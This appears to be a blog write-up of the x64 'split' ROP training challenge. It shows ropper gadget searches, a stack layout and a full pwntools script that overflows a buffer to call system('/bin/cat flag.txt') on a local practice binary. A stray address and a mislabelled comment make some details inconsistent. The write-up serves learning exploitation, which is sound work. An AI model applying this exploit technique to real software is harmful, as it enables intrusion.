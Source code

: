 ```yaml
---
layout: post
title: ROP x64 Challenge 2
status: in progress
type: post
published: true
comments: true
date: 2022-07-13
---
```


## Challenge 2: Split
> The elements that allowed you to complete ret2win are still present, they've just been split apart.  Find them and recombine them using a short ROP chain.


This is the first challenge that really gets into the coolness of ROP exploits. 

Where before we just needed to execute the ret2win function, now there is no single place we need to return to. However, there are 2 parts of code (which are disconnected) that we need to execute in this binary. We first need to place a pointer to the "/bin/cat flag.txt" string into rdi (which is where the first argument to a function is stored) and then we need to cause a system call to happen. Luckily the string and system call already exist in the program so all we have to do is put them together.


When we search within [[pwndbg]] for ways to edit the value of $rdi we get the following:

```
pwndbg> ropper -- --search "pop rdi"
[INFO] File: /tmp/tmplhu8fdig
0x00007ffff7fec24b: pop rdi; jne 0x7ffff80675b8; add rdx, 8; add rax, 3; mov qword ptr [rdi], rdx; ret;
0x00007ffff7fd09c1: pop rdi; pop rbp; ret;
0x00000000004007c3: pop rdi; ret;
```
The pop instruction takes the top value on the stack and places it in the register. Since we control the stack with our buffer overflow, we can control that value and make it whatever we want. The last one shown is ideal for us in this situation as it doesn't cause another bad side effects.

When we print the functions we can also see a location for the system call.
```
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system

```

So what we want to do is run 2 instructions sets, the first starting at 0x40073c and then jump to 0x400560. Luckily the first 2 instructions end with a ret instruction which jumps to the instructions held at the top of the stack. So we want the stack to look like this

```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | pop rdi loc    | # gadget to control rdi
8 bytes | ptr to string  | # the value we want to place in rdi
8 bytes | system call loc| # the system call function we want to call
8 bytes | -------------- |

```


This stack overwrite causes the pwnme function to return to the pop rdi instruction. The location of the "/bin/cat flag.txt" string is then placed into the rdi register. The program then returns to the system call location and prints the flag.

```python
#!/usr/bin/python3

from pwn import *

io = process('./split')
# The amount to fill the buffer
junk = b'A' * 0x20
# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
pop_rdi = p64(0x004007c3)

# The address of the "/bin/cat flag.txt"
addr_of_command = p64(0x00601060)

call_system = p64(0x00400560)
back_junk = b"B" * 20

payload = junk + new_bp + pop_rdi  + addr_of_command +  call_system
payload += back_junk

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")
print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
input("exploit sent hit enter to end")
sleep(1)
```

